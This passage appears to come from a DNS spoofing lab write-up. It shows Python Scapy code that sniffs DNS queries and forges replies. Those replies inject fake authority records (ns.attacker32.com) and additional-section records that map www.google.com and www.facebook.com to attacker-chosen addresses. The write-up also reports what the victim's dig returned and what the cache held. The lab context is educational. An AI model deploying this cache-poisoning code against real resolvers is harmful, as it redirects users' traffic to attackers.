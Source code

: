 ```python
print('running...')
sniff(iface='br-eb50d439f380', filter=myFilter, prn=spoof_dns)
```

***running dig `www.example.com` from victim machine***

![spoof-ns-2-victim](https://github.com/iukadike/iukadike.github.io/assets/58455326/f6d863bc-28fd-4438-a035-f742128c9a73)

We can see from the screen shot that, as expected, the address `dig` got back for `www.example.com` was `1.2.3.5`, which is the address present in the `example.com` zone file.

***the dns cache of the local dns server***

![spoof-ns-2-cache](https://github.com/iukadike/iukadike.github.io/assets/58455326/2a326773-a20c-47e6-aef6-32385c12b6f1)

Here, after dumping the cache to a file and inspecting it, we can see the cached address for `www.example.com`, but that of `google.com` was mismatched. Also present is the name server for `example.com`, but the DNS server did not cache our spoofed name server for `google.com`.

<br>

### Spoofing Records in the Additional Section
Since the above did not work, maybe we can use the additional response record section to record IP bindings.

```python
#!/usr/bin/env python3
from scapy.all import *
import sys

NS_NAME = "example.com"

def spoof_dns(pkt):
    if NS_NAME in pkt[DNS].qd.qname.decode():
        print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))
        
        # Create an IP object
        ip = IP(src = pkt[IP].dst, dst = pkt[IP].src)
        
        # Create a UDP object
        udp = UDP(sport = pkt[UDP].dport, dport = pkt[UDP].sport) 
        
        # Create an answer record
        #ansec = DNSRR(rrname = pkt[DNS].qd.qname, type = 'A',
        #    ttl = 1024, rdata = '1.2.3.4')
            
        # Create an authority record
        nssec1 = DNSRR(rrname = 'example.com', type = 'NS',
            ttl = 1024, rdata = 'ns.attacker32.com')
            
        nssec2 = DNSRR(rrname = 'example.com', type = 'NS',
            ttl = 1024, rdata = 'www.google.com')
      
        # Create an additional record
        arsec1 = DNSRR(rrname = 'www.google.com', type = 'A',
            ttl = 1024, rdata = '5.6.7.8')            
        arsec2 = DNSRR(rrname = 'www.facebook.com', type = 'A',
            ttl = 1024, rdata = '3.4.5.6')
        
        # Create a DNS object 
        dns = DNS(id = pkt[DNS].id,
            rd = 0, qr = 1, qdcount = 1, ancount = 0, nscount = 2, arcount = 2,
            qd = pkt[DNS].qd, ns = nssec1 / nssec2, ar = arsec1 / arsec2)
            #qd = pkt[DNS].qd, an = ansec, ns = nssec1 / nssec2, ar = arsec1 / arsec2 / arsec3) 
        
```